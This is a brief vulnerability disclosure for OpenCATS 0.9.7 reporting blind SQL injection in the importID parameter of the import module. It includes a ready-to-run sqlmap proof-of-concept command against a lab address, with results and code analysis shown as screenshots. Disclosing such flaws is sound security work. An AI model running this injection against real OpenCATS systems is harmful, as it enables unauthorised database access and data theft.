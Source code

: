 # Opencats-0.9.7-sql injection in importID
Date: 2022/12/24

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL
`http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1`

## sqlmap-POC
```
sqlmap -u "http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=3vuotomfflasp6drb4vtimpkqc" --current-db  -p "importID" --flush-session
```

## Result-Show
It exists two sql injections, one is boolean-based blind injection, the other is time-based blind injection.

![image](https://user-images.githubusercontent.com/71068573/209432445-ae54e3c9-83de-424e-9037-dbac2efba773.png)

![image](https://user-images.githubusercontent.com/71068573/209432499-4e6f1fa2-1754-43ca-8dab-698683aa75e8.png)

![image](https://user-images.githubusercontent.com/71068573/209432511-88339329-523c-4fa0-ae34-fee2747c5e36.png)

## Source-Code-Analysis
**Because it does not have strict control over input, then it is executed.**
![image](https://user-images.githubusercontent.com/71068573/209432838-e89cfd21-8cfe-4e71-8cc5-088bdae29063.png)

![image](https://user-images.githubusercontent.com/71068573/209432841-36bc5a14-21f4-4877-a2e6-538d36759861.png)

